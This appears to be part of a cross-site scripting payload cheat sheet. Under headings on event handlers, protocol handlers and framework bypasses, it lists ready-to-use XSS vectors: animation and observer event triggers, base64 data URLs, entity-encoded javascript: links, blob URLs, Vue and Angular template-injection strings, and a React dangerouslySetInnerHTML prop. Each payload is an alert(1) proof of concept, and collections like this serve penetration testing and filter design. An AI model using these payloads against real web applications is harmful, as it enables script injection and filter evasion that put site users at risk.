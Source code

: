 ### Event Handler Innovation

Novel event handler techniques:

```js
# ConstructionEvent Abuse
<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:x;}</style>
<xss id=x style="position:fixed;" onanimationcancel="alert(1)"></xss>

# Intersection Observer
<script>
new IntersectionObserver(([e]) => {
  if (e.isIntersecting) alert(1)
}).observe(document.body)
</script>

# ResizeObserver Exploit
<script>
new ResizeObserver(() => alert(1)).observe(document.body)
</script>
```

### Protocol Handler Exploitation

Abusing various protocol handlers:

```js
# Data URL Abuse
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a>

# Javascript Protocol Variants
<a href="javascript&colon;alert(1)">Click</a>
<a href="javascript&#58;alert(1)">Click</a>
<a href="javascript&#0058;alert(1)">Click</a>

# Blob URL Exploitation
<script>
URL.createObjectURL(new Blob(['<script>alert(1)</script>'],{type:'text/html'}))
</script>
```

### Modern Framework Bypass Targeting popular JavaScript frameworks:

```js
# Vue Template Injection
{{constructor.constructor('alert(1)')()}}
{{_c.constructor('alert(1)')()}}

# Angular Template Injection
{{$eval.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}

# React Props Injection
<div data-react-props="{'dangerouslySetInnerHTML':{'__html':'<img src=x onerror=alert(1)>'}}">
```
